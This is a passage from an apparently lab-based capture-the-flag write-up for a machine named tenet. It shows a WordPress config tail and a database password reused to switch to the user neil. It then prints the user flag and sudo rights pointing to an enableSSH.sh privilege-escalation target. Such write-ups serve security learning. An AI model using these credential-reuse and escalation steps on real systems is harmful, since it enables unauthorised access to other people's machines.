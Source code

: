 ```bash
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php'; 
```

- The credentials are for the database but as such if we try to migrate to the `neil` user we see that `Opera2112` works.

```bash
www-data@tenet:/var/www/html/wordpress$ su neil
Password: 
neil@tenet:/var/www/html/wordpress$ whoami
neil
neil@tenet:/var/www/html/wordpress$ id
uid=1001(neil) gid=1001(neil) groups=1001(neil)
neil@tenet:/var/www/html/wordpress$ 
```

## User.txt 

- Here we can see the first flag.

```bash
neil@tenet:~$ cat user.txt
0b85a9967e410892bb32b0628e11989f
neil@tenet:~$
```

## Privilege Escalation

- We have this privilege at the `sudoers` level.

```bash
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
neil@tenet:~$ 
```
